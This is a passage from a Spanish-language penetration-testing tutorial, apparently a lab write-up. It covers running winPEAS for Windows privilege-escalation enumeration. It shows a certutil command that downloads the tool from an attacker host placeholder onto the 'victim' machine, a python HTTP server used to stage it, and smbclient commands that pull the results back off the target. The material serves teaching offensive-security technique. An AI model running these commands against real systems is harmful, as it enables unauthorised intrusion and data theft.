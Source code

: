 Ya con winPEAS.ps1 en el equipo objetivo, vamos a ejecutarlo para que nos detecte posibles vulnerabilidades.

Si lo ejecutamos, no nos mostrará los resultados con colorines, así que lo que vamos a hacer es activar esta función.

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

```
.\winPEAS.ps1 | Out-File -FilePath .\winPEAS_result.txt
```

Si en lugar de trabajar en PowerShell, vamos a trabajar en cmd, nos descargamos el ejecutable .exe. Podemos descargarlo en el siguiente enlace

```
https://github.com/peass-ng/PEASS-ng/releases/tag/20240526-eac1a3fa
```

Descargaremos la versión winPEASx64.exe por ejemplo. Ahora toca pasar este archivo al equipo víctima.

```bash
python3 -m http.server [Puerto]
```

Lo descargamos en el equipo víctima por ejemplo con certutil

```
certutil -f -urlcache http://[IPAtacante]:8080/[Archivo] [NombreNuevo]
```

Ya en el equipo víctima, lo ejecutamos. Generalmente cuando ejecutamos winPEAS lo ejecutaremos sin parámetros para ejecutar todas las comprobaciones y luego revisaremos toda la salida línea por línea. Un buen truco al ejecutar el análisis completo es redirigir la salida de winPEAS a un archivo y luego enviarlo de regreso a nuestra máquina atacante para un análisis rápido de vulnerabilidades comunes usando grep.

```
winPEASx64.exe > winPEAS_result.txt
```

Aprovechando que tenemos el servicio SMB expuesto, podemos mover el archivo winPEAS_result.txt al directorio del usuario Bitbucket y mediante smbclient, descargarlo a nuestro equipo

```
move winPEAS_result.txt C:\Users\Bitbucket
```

Ahora con smbclient nos descargamos el archivo winPEAS_result.txt

```bash
smbclient //[IPObjetivo]/Users -U bitbucket
ls
cd bitbucket\
get winPEAS_result.txt
```
